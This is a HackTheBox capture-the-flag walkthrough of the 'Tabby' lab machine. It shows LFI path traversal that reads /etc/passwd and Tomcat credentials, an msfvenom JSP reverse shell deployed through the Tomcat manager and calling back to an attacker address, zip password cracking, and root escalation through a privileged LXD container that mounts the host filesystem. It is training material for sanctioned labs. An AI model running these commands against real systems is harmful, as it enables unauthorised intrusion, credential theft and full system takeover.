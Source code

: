 ```yaml
---
layout: post
title: "Tabby"
tags: HackTheBox
description: "Exploit the LFI on Tomcat and escalate privileges with abusing LXC containers."
---
```


## Content table
- Enumeration
- Exploitation of Tomcat
- Privilege escalation with LXC containers

---

## Enumeration
Start with nmap scan:
```
nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 06:30 EDT
Nmap scan report for 10.10.10.194
Host is up (0.021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## Exploitation of Tomcat

The service that running on port `80` is vulnerable to LFI, and that's led to the exposure of the `/etc/passwd`

```
view-source:http://10.10.10.194/news.php?file=../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

It took a while to find the `tomcat-users.xml` file, as usually it's located at `usr/share/tomcat9/conf/tomcat-users.xml`. In that case, you can find the `tomcat-users.xml` file at ```view-source:http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml```.

Content of the file:

```
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

Creating a reverse shell:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=53 -f war > shell.war
```

> Port number can be any. Here I'm just trying to follow the approach `What if there would be a firewall?` and not using something sketchy as port `4444`


Uploading the reverse shell:

```
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
```

Starting a listener on port `53`

```
nc -nlvp 53
```

Triggering the shell:

```
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/shell/
```

Upgrading the shell to fully TTY:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty raw -echo  
fg
```
---

## Privilege escalation with LXC containers

From `/etc/passwd` file we know that user `ash` exists in the system.
Enumeration PrivEsc ways with `linpeas.sh` can spot the file `16162020_backup.zip` in `/var/www/html/files/`

Download it to the Kali instance and cracking with `fcrackzip`:

```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip
```

Mentioned `.zip` file contains credentials `ash:admin@it`.  
Switching  user with `su` command.

```
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

What's LXD?  
>LXD is a next generation system container manager. It offers a user experience similar to virtual machines but using Linux containers instead.

Building a custom container:

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo bash build-alpine
```

Uploading the new file to the machine and starting exploitation:

```
lxc image import ./alpine-v3.12-x86_64-20200710_0823.tar.gz --alias exploit
```

List of images can be checked with the command:

```
lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| exploit | 35186ff8d0a4 | no     | alpine v3.12 (20200710_08:23) | x86_64       | CONTAINER | 3.05MB | Jul 10, 2020 at 3:28pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

The container has been created. Now you can initiate this container as a privileged one and mount a disk as a device:

```
lxc init exploit honk -c security.privileged=true
lxc config device add honk roguedevice disk source=/ path=/mnt/root recursive=true
lxc start honk
lxc exec honk /bin/sh
```

As a result, you will spawn a root shell. 
